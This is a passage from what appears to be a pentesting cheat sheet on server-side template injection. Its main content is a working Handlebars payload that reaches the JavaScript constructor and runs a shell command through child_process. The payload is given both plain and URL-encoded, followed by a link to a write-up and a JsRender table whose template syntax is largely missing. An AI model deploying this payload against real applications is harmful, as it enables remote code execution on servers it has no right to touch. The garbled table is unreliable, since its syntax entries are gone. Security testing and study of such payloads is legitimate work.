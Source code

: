 - = Error
 
- ${7*7} = ${7*7}
 
- Nothing
 


```
{{#with "s" as |string|}}
 {{#with "e"}}
 {{#with split as |conslist|}}
 {{this.pop}}
 {{this.push (lookup string.sub "constructor")}}
 {{this.pop}}
 {{#with string.split as |codelist|}}
 {{this.pop}}
 {{this.push "return require('child_process').exec('whoami');"}}
 {{this.pop}}
 {{#each conslist}}
 {{#with (string.sub.apply 0 codelist)}}
 {{this}}
 {{/with}}
 {{/each}}
 {{/with}}
 {{/with}}
 {{/with}}
{{/with}}

URLencoded:
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27whoami%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```

**More information**

- [http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jsrender-nodejs)

JsRender (NodeJS)

| | |
|---|---|
|**Template**|**Description**|
||Evaluate and render output|
||Evaluate and render HTML encoded output|
||Comment|
|and|Allow code (disabled by default)|
